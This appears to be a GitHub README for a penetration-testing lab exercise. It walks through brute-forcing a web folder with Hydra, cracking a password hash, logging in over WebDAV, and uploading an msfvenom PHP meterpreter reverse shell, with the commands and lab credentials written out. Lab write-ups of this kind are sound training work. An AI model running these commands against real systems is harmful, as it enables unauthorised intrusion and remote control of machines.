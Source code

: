 # RED-vs-BLUE
Project demostrating my knowledge in defensive security, and pentration testing in a gray box environment.
## Network Topology
![Topology](Images/red-blue-env.png)

| Name | Function | IP Address |
| -------- | --------| --------- |
| Kali VM  | Attacking Machine | 192.168.1.90 |
| Capstone VM | Target Machine | 192.168.1.105 |
| ELK Server | Monitoring Machine | 192.168.1.100 |

## Discover the IP address for the Linux server

-Open up a terminal and run an nmap of the network
`nmap 192.168.1.0/24`
![Nmap scan]{Images/nmap_find_webserver.png}

- Looking at the image above we can see that port 80 is open on 192.168.1.105. Which is the machine that we are looking for.

- We now need to open up a browser and navigate to the web page.
` http://192.168.1.105 `

## Locate the hidden directory on the server

- Navigating through different directories, you will see a reoccurring message.
*Please refer to company_folder/secret_folder for more information*
*ERROR: company_folders/secret_folder/ is no longer accessible to the public*

- Navigate to that directory by updating the path in the url.
` http://192.168.1.105/company_folders_secret_folder `

- The directory asks for authentication in order to access it. Reading the authentication method, it says *For ashton's eyes only*

- This gives us a good idea on what account to target

## Brute force the password for the hidden directory

- Because the folder is password protected, we need to either guess the password or brute force into the directory. In, this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Command used `hydra -l ashton -P ./wordlist/rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder`
![Hydra](Images/hydra_psswd_hash.png)

- We can see that Ashton's password is *leopoldo*
- Going back to the *company_folders/secret_folder* enter the information that we found.

- Once inside the directory navigate the the *connect_to_corp_server* We find instructions on how to connect to the server via **WebDAV**
- We can also see ryan's password hash.
![webdav instructions](Imaages/web-dav-dir.png)

## Connect to the server via WebDAV

- Using ryan's password hash we can either put the hash into a file with the proper format and use `john`, or we can use *https://crackstation.net* to crack the passwod. In this case we will be using *crackstation*.

-Naviage to *https://crackstation.net* and enter the hash into the text box.

![Crackstation](Images/crackstation_psswd_hash.png)

- The password is revealed as: `linux4u`

## Connect to the server via WebDAV

- In order to connect to the webserver via WebDAV we need to do as follows.
  1. Open the **File System** from the desktop
  2. Click **Browse Network**
  3. In the URL bar, type: `dav://192.168.1.105/webdav` and enter ryans credentials to log in.
![Webdav-login](Images/webdav_login.png)

## Upload a PHP reverse shell payload

- We start by creating the payload using **msfvenom**.

- `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php`

![msf-payload](Images/msf-payload.png)

- On the Kali machine we need to set up a listener.
  - Start msfconsole: run `msfconsole`
  - Load module: run `use exploit/multi/handler`
  - Set payload: run `set payload php/meterpreter/reverse_tcp`
  - Set Local Host: run `set LHOST 192.168.1.90`
  - Set Local Port: run `set LPORT 4444`
  - View settings for module: run `show options`
  - Start the listener: run `exploit`

![listener](Images/reverse_shell_complete.png)


- Now drag and drop the **shell.php** from the Kali desktop to the webserver.
![msf-payload](Images/msfvenom_payload.png)

- Connect to the webdav folder by navigating to **192.168.1.105/webdav** and use ryan's credentials. **ryan:linux4u**

- Click the `shell.php` - If the browser is hanging or loading that means its working.

## Using Meterpreter to find flag

- Open the listener and change to the root directory. `cd /`
- Search the system for files that conatin *flag* `find . -iname flag
- Cat out the file found `cat flag.txt`
![flag found](Images/flag_found.png)

## Analysis

### Finding the target

- In this gray box environment we were able to find which server was the Web Server by noticing which host had port 80. The service running on this port is http which is an unsecure protocol as it doesn't encrypt it's traffic.

### Locate vulnerable directories and files

- After navigating to the vulnerable target we traveresed through the directories to find hints on which directories conatined sensitive data. We notice that the directory */secret_folder/* is no longer available to the public. 

- Navigating to this directory requires authentication, and a note that states "for ashton's eyes only". This gives us information on what the username might be to access this directory.

### Brute force the hidden directory

- We used the hydra command to brute force the password for ashton's account. Here is a breakdown of the hydra command used.
   - `hydra` - command
   - `-l ashton` - login name
   - `-P /usr/share/wordlists/rockyou.txt` - Point the password to load several passwords from a file.
   - `-s 80` - run command on port 80
   - `-f` - stop command after the first found username/password pair.
   - `-vV` - Verbose mode which shows attempted username and password combinations
   - `192.168.1.105` - targeted address
   - `http-get /company_folders/secret_folder` - send a http-get request to the targeted directory

- Running this command was able to enumerate the password for ashton's account.
- Using the credentials found we were able to find another file on how to connect to the Web Server via WebDav.

### Connecting to Server via WebDav

- WebDav is an extension of the hypertext protocol that allows clients to perform remote Web content authoring operation. Knowing this gives us the ability to add changes to the Web server.

- With the given hash and username associated with the hash we are easily able to crack the hash with `john` or by using crackstation.net.

### 